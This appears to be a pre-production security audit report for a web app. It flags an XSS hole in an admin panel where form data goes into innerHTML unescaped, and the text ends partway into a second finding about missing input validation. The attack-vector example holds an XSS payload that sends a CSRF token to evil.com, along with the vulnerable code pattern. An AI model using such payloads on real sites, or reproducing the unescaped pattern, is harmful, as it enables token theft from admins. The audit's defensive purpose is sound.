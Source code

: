 # 🔍 Production Security Audit Report

**Date**: 2025-10-17
**Status**: 🔴 CRITICAL ISSUES FOUND
**Environment**: Pre-Production

---

## Executive Summary

Your application has **3 CRITICAL vulnerabilities** and **5 MEDIUM issues** that MUST be fixed before production deployment.

### Security Score: 65/100

---

## Critical Issues (MUST FIX)

### 🔴 CRITICAL #1: XSS Vulnerability in Admin Panel
**Severity**: CRITICAL | **CVSS**: 7.5
**Location**: `admin.html` lines 348, 378-389
**Issue**: User-submitted data injected into `innerHTML` without escaping

**Vulnerable Code:**
```javascript
// VULNERABLE - Log data
${log.description || 'No description'}

// VULNERABLE - Submission data
${submission.name}
${submission.email}
${submission.description}
```

**Attack Vector:**
```
Hacker submits: <img src=x onerror="alert('XSS')">
In the name field: <script>fetch('https://evil.com?data='+localStorage.getItem('csrf_token'))</script>
Result: JavaScript executes in admin panel!
```

**Fix Required**: Escape all user data
**Status**: ❌ UNFIXED

---

### 🔴 CRITICAL #2: Missing Input Validation on Form Submission
**Severity**: CRITICAL | **CVSS**: 8.0
**Location**: `script.js` - submitContactForm function
**Issue**: No validation of form inputs before sending to Supabase
